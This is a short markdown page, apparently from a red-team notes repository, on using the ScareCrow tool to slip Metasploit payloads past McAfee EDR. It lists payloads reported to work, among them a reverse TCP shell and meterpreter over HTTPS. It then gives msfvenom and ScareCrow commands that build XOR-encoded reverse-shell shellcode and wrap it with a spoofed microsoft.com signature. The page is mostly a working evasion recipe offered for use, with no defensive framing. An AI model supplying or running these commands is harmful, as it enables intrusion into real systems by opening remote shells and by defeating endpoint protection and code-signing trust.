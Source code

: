 # Bypassing using ScareCrow

You can use the [scarecrow](https://github.com/optiv/ScareCrow) tool to bypass McAfee EDR. We tested 3 types of metasploit payloads that work, they are:

* windows/x64/shell/reverse_tcp
* windows/x64/meterpreter_reverse_https
* windows/x64/exec

Commands:
```
$ msfvenom -p windows/x64/shell/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f raw -a x64 -e x64/xor > shellcode.bin 
$ ./ScareCrow_4.11_linux_amd64 -I shellcode.bin -domain microsoft.com 
```

It obscures itself to circumvent protections and also contains a false signature to give more credibility to the target.
![](https://github.com/optiv/ScareCrow/raw/main/Screenshots/File_Attributes.png)
